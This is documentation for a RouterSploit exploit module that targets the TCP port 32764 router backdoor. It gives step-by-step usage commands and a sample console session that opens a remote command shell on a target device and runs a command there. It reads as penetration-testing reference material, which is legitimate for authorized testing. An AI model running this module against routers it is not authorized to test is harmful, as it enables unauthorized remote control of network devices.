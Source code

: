## Description

Module exploits backdoor functionality that allows executing commands on operating system level. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/multi/tcp_32764_rce`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable it is possible to execute commands on operating system level.

## Scenarios

```
rsf > use exploits/routers/multi/tcp_32764_rce
rsf (TCP-32764 RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (TCP-32764 RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > echo test
[*] Executing 'echo test' on the device...
[*] Connection established
test
cmd >
```
